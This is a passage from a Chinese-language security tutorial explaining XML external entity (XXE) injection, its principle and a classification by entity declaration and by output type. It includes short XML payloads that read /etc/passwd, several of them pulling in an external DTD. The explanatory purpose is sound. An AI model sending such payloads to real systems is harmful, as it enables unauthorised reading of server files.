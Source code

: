 ## 1.2 XXE原理
`XXE`即`XML外部实体注入` 。我们先分别理解一下注入和外部实体的含义。
注入：是指`XML`数据在传输过程中被修改，导致服务器执行了修改后的恶意代码，从而达到攻击目的。
外部实体：则是指攻击者通过利用外部实体声明部分来对`XML`数据进行修改、插入恶意代码。
所以`XXE`就是指`XML`数据在传输过程中利用外部实体声明部分的`“SYSTEM”`关键词导致`XML`解析器可以从本地文件或者远程`URI`中读取受保护的数据。

## 1.3 XXE分类
下面我们对`XXE`进行一下分类，按照构造外部实体声明的方法不同可分为直接通过`DTD`外部实体声明、通过`DTD`文档引入外部`DTD`文档中的外部实体声明和通过`DTD`外部实体声明引入外部`DTD`文档中的外部实体声明。按照`XXE`回显信息不同可分为`正常回显XXE`、`报错XXE`和`Blind XXE`。
### 1.3.1 按构造外部实体声明
#### 1.3.1.1 直接通过DTD外部实体声明
```
<?xml version="1.0"?>
    <!DOCTYPE Quan[
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>

<hhh>&f;<hhh>
```
#### 1.3.1.2 通过DTD文档引入外部DTD文档中的外部实体声明
XML文件内容：
```
<?xml version="1.0"?>
    <!DOCTYPE Quan SYSTEM "https://blog.csdn.net/syy0201/Quan.dtd">

<hhh>&f;<hhh>
```
DTD文件内容：
```
<!ENTITY f SYSTEM "file:///etc/passwd">
```
#### 1.3.1.3 通过DTD外部实体声明引入外部DTD文档中的外部实体声明
```
<?xml version="1.0"?>
<!DOCTYPE Quan[
<!ENTITY f SYSTEM "https://blog.csdn.net/syy0201/Quan.dtd">
]>

<hhh>&f;<hhh>
```
Quan.dtd的外部实体声明内容：
```
<!ENTITY f SYSTEM "file:///etc/passwd">
```
### 1.3.2 按输出信息
#### 1.3.2.1正常回显XXE
正常回显XXE是最传统的XXE攻击,在利用过程中服务器会直接回显信息，可直接完成XXE攻击。

#### 1.3.2.2 报错XXE
报错XXE是回显XXE攻击的一种特例,它与正常回显XXE的不同在于它在利用过程中服务器回显的是错误信息，可根据错误信息的不同判断是否注入成功。
